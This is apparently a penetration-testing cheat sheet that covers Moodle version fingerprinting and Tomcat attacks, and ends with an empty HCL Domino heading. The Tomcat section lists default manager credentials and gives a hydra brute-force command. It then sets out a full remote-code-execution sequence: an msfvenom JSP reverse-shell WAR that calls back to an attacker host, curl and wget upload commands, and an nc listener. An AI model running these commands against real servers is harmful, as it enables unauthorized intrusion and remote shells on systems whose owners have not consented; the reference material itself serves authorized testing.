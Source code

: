### Moodle

#### Enumeration - Moodle

#### Moodle - Version

```
Curl the specified locations below and pipe to MD5sum to retreive the MD5 hash value. Then compare then against known values to get an approx version.

curl -SL https:SITE/locations|md5sum

'/admin/environment.xml'], ['/composer.lock'], ['/lib/upgrade.txt'], ['/privacy/export_files/general.js'], ['/composer.json'], ['/question/upgrade.txt'], ['/admin/tool/lp/tests/behat/course_competencies.feature']

List of version hashes
https://github.com/inc0d3/moodlescan/blob/master/data/version.txt
```

### Tomcat

#### Default credentials

```
The most interesting path of Tomcat is /manager/html, inside that path you can upload and deploy war files (execute code). But  this path is protected by basic HTTP auth, the most common credentials are :

admin:admin
tomcat:tomcat
admin:<NOTHING>
admin:s3cr3t
tomcat:s3cr3t
admin:tomcat
```

#### Brute force

```
hydra -L <USERS_LIST> -P <PASSWORDS_LIST> -f <IP> http-get /manager/html -vV -u
```

#### Tomcat panel RCE

```
# Generate payload
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war

# Upload payload
Tomcat6 :
wget 'http://<USER>:<PASSWORD>@<IP>:8080/manager/deploy?war=file:shell.war&path=/shell' -O -

Tomcat7 and above :
curl -v -u <USER>:<PASSWORD> -T shell.war 'http://<IP>:8080/manager/text/deploy?path=/shellh&update=true'

# Listener
nc -lvp <PORT>

# Execute payload
curl http://<IP>:8080/shell/
```
### HCL Domino
```
Following interesting location:  
```